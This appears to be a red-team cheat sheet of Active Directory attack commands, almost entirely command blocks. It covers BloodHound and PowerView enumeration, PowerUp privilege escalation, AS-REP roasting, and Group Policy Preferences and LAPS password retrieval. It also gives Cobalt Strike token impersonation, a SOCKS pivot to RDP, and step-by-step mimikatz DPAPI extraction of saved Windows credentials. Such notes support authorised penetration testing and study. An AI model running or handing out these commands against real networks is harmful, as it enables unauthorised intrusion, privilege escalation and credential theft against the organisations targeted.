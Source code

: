 ## **More fun in AD**

Below are a collection of items to run within a new environment to check for

In addition the bloodhound \(\(Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV\) and basic net enumeration \(net view, computers, dclist, domain\_trusts\) try looking for the following:

Next try running

Powerup

```
powershell-import /opt/PowerSploit/Privesc/PowerUp.ps1
powershell Invoke-AllChecks
```

as well as hamrj0y's powerview tips

[https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993](https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993)

**Group functions**

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Management Users"`Gets members of users who can use WinRM on a specific machine.

`Get-NetLocalGroup -ComputerName MX01 -GroupName "Remote Desktop Users"`Gets members of users who can RDP to a specific machine.

**Determine if kerberos pre-auth is not set**

```
#With Powerview

# check for users who don't have kerberos preauthentication set
Get-DomainUser -PreauthNotRequired
Get-DomainUser -UACFilter DONT_REQ_PREAUTH
Invoke-ASREPRoast -Verbose | fl
```

```
#Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
powershell-import /opt/PowerSploit/Exfiltration/Get-GPPPassword.ps1
powershell Get-GPPPassword

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1
```

Note: Great cheat sheets for powerview, powerup,powersploit, etc.

```
https://github.com/HarmJ0y/CheatSheets
```

Note: A great tool for cracking hashes is kwprocessor

```
./kwp -z basechars/full.base keymaps/en.keymap routes/2-to-16-max-3-direction-changes.route > largekwpshift.txt
```

**LAPS:**

Note: This access is not currently in Bloodhound but is planned for a future update

```
#Import the script into memory
powershell-import /opt/LAPSToolkit/LAPSToolkit.ps1

#Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute
powershell Find-LAPSDelegatedGroups

#Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights".
powershell Find-AdmPwdExtendedRights 

#Displays all computers with LAPS enabled, password expriation, and password if user has access
powershell Get-LAPSComputers
```

[https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/](https://www.harmj0y.net/blog/powershell/running-laps-with-powerview/)

[https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps](https://www.pentestgeek.com/penetration-testing/another-lap-around-microsoft-laps)

**Token Notes:**

You can create a token and pass to obtain a shell when not in elevated process. Additionally, only psexec/psexec\_psh work with make\_token, not winrm or wmi

```
make_token .\Administrator P@ssw0rd
ls \\dc01\c$
```

**Credential Manager & DPAPI:**

If assume / know the machine is used for RDP, there might be saved credentials.

```
shell vaultcmd /listcreds:"Windows Credentials" /all
```

These credentials are stored within the users directory,:

```
powershell Get-ChildItem C:\Users\<User>\AppData\Local\Microsoft\Credentials\ -Force
```

Take the output from above command to get details

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from above command>
```

Get the Masterkey from cache

```
mimikatz !sekurlsa::dpapi
```

Obtain password

```
mimikatz dpapi::cred /in:C:\Users\<User>\AppData\Local\Microsoft\Credentials\<File Name from earlier command> /masterkey:<key from above command>
```

**Proxychains & RDP:**

```
beacon> socks 1337
nano /etc/proxychains.conf socks4 127.0.0.1 1337
proxychains xfreerdp /u:<username> /v:<IPADDRESS> 
```

**Resources:**

[https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/](https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

[http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/](https://legacy.gitbook.com/book/d00mfist1/ctf/edit#)

[https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html](https://chryzsh.gitbooks.io/darthsidious/content/enumeration/powerview.html)

